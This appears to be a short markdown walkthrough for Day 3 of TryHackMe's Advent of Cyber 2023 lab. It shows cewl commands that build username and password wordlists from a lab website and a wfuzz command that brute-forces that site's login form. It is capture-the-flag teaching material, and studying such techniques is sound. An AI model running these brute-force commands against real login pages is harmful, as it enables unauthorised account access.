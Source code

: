 # Day 3
## Website used to spider and create ordlist
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/36433fac-524e-42ab-aeb0-c9a3d0d712c0)

## cewl
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/344dce6d-d5e3-4e51-b2f9-2f68bbf2dc2b)
generating username and password lists
```s
cewl -d 2 -m 5 -w passwords.txt http://10.10.50.197 --with-numbers
```
```s
cewl -d 0 -m 5 -w usernames.txt http://10.10.50.197/team.php --lowercase
```
## Cracking with wfuzz
```s
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.50.197/login.php -d "username=FUZZ&password=FUZ2Z"
```







